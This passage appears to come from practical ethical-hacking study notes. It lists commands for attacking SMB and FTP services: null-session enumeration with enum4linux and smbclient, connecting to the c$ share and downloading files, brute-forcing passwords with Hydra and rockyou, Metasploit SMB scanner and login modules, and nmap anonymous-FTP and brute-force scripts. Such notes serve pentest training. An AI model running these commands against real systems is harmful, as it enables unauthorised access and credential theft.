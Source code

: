 ```bash
# 2 - If “<20>” exists, it means Null Session could be exploited. Utilize the following command to get more details:
enum4linux <TARGET_IP>
# 3 - If confirmed that Null Session exists, you can remotely list all share of the target:
smbclient -L WORKGROUP -I <TARGET_IP> -N -U ""
# 4 - You also can connect the remote server by applying the following command:
smbclient \\\\<TARGET_IP>\\c$ -N -U ""
# 5 - Download those files stored on the share drive:
smb: \> get file_shared.txt
```

#### Hydra

```bash
gzip -d /usr/share/wordlists/rockyou.txt.gz

hydra -l admin -P /usr/share/wordlists/rockyou.txt <TARGET_IP> smb
```

We can use a wordlist generator tools (how [Cewl](http://127.0.0.1:5000/s/iS3hadq7jVFgSa8k5wRA/pratical-ethical-hacker-notes/cewl)), to create custom wordlists.

#### Metasploit

```bash
# METASPLOIT Starting
msfconsole
msfconsole -q

# METASPLOIT SMB
use auxiliary/scanner/smb/smb_version
use auxiliary/scanner/smb/smb_enumusers
use auxiliary/scanner/smb/smb_enumshares
use auxiliary/scanner/smb/smb_login
use auxiliary/scanner/smb/pipe_auditor

## set options depends on the selected module
set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
set SMBUser <USER>
set RHOSTS <TARGET_IP>
set verbose FALSE ---> esto es para que NO nos imprima por pantalla TODOS los intentos y sólo nos impriman los Success!
exploit
```

### FTP

#### Nmap

```bash
sudo nmap -p 21 -sV -sC -O <TARGET_IP>
nmap -p 21 -sV -O <TARGET_IP>

nmap -p 21 --script ftp-anon <TARGET_IP>
nmap -p 21 --script ftp-brute --script-args userdb=<USERS_LIST> <TARGET_IP>
```
